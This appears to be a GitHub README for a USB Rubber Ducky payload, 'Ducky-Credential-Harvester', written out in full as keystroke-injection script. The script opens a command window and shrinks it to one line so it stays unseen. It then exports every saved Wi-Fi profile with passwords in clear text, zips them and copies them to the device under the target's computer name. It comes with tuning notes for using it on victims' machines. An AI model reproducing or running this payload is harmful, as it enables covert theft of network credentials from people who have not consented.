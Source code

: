 # Ducky-Credential-Harvester
Short credential harvester for the USB-Rubber-Ducky (Hak5). Requires the Twin-Duck Firmware flashed on it.
TwinDuck: is a Firmware to be flashed on the Ducky via Arduino IDE, wich enables HID and Flashdrive regisstration on the Ducky

--> Enables credential saving on the Ducky itsself

Source: https://github.com/hak5darren/USB-Rubber-Ducky

Guide to Flash TwinDuck: https://www.youtube.com/watch?v=jemPgO_eNeg

REM: these lines arent going to be processed

DELAY 2000

GUI d

REM --> delay for 2 seconds to get the drivers on the target machine running. Closes all Tabs (GUI=WindowsKey)

DELAY 150

GUI r

DELAY 400

STRING cmd

ENTER

DELAY 500

STRING color FE & mode con:cols=18 lines=1

ENTER

REM -->(optional) stealthy...

STRING mkdir A

ENTER

STRING cd A

ENTER

REM --> Sets up the credentials Directory "A" on the Desktop - navigates into it 

STRING netsh wlan export profile key=clear

ENTER

DELAY 200

STRING cd ..

ENTER

REM --> exports all Saved wlan profiles to "A" and navigates back (!!requiers administrative privileges!!)

STRING powershell

ENTER

STRING Compress-Archive -Path A -DestinationPath A.zip

ENTER

STRING copy A.zip D:\%computername%-wifi-passwords.zip

ENTER

GUI d

REM --> Compresses .xml files into .zip via powershell and copys the credentials to the Duckys directory with the targets name in it. Minimizes all tabs.

REM --> Execution time: arround 3-5 seconds. Delays commonly need to be longer the older your target machine is.
